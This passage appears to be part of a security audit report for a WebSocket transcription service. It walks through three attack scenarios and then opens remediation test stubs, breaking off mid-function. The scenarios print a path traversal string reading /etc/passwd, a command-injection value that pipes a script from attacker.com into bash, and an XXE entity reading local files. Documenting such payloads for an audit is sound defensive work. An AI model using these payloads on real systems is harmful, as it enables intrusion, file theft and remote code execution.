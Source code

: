 ## 11. Attack Scenario Walkthroughs

### 🎭 Scenario 1: Malicious User Attack Chain

```python
# ATTACK CHAIN: File system access via path traversal
Step 1: Connect with valid authentication
Step 2: Send malicious file path: "../../../etc/passwd"
Step 3: RESULT - File access granted (CRITICAL VULNERABILITY)

# POTENTIAL IMPACT:
# - User enumeration via /etc/passwd
# - SSH key theft from ~/.ssh/
# - Application configuration access
# - Database file access
```

### 🎭 Scenario 2: Remote Code Execution

```python
# ATTACK CHAIN: Command injection to RCE
Step 1: Authenticated WebSocket connection
Step 2: Transcription with command injection: "hello; curl attacker.com/malware.sh | bash"
Step 3: RESULT - Command execution possible (CRITICAL VULNERABILITY)

# POTENTIAL IMPACT:
# - Complete system compromise
# - Data exfiltration
# - Malware installation
# - Lateral movement in network
```

### 🎭 Scenario 3: Data Exfiltration

```python
# ATTACK CHAIN: XXE to file disclosure
Step 1: Craft malicious JSON with XXE payload
Step 2: Send via WebSocket: {"data": "<!DOCTYPE [<!ENTITY xxe SYSTEM 'file:///etc/passwd'>]>"}
Step 3: RESULT - File contents potentially disclosed

# POTENTIAL IMPACT:
# - Sensitive file disclosure
# - Internal network reconnaissance
# - Server-side request forgery
```

## 12. Remediation Verification Framework

### 🔧 Fix Validation Tests

#### Input Validation Remediation
```python
# REQUIRED: Enhanced validation implementation
def secure_path_validation(path):
    """
    Implement comprehensive path validation
    1. Canonical path resolution
    2. Explicit allow-list of directories
    3. Block all traversal sequences
    4. Validate against known attack patterns
    """
    
def secure_command_validation(text):
    """
```